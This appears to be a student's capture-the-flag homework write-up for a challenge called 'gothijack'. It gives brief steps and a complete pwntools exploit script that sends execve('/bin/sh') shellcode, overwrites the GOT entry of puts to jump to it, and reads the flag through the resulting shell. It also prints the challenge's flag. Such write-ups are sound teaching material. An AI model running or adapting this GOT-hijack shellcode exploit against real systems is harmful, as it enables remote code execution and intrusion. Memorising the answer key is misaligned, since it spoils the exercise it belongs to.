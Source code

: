 # HW2
## gothijack
* NX disable.
* Hijack got value of puts.
* Jump to shellcode.
* Insert Null byte to bypass isalnum checking.
```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{G0THiJJack1NG}

context.arch = 'amd64'

e = ELF('./gothijack-2586ada3c6815e1ad4656d704ecfc03f86bc1b00')

host , port = 'csie.ctf.tw' , 10129

y = remote(host,port)

sc = 'H1\xf6H1\xd2H\xb8/bin/sh\x00PH\x89\xe7j;X\x0f\x05'

y.sendafter( ':' , '\x00' + sc )

y.sendafter( ':' , hex( e.got['puts'] ) )

y.sendafter( ':' , p64( 0x6010a0 + 1 ) )

sleep(1)

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```
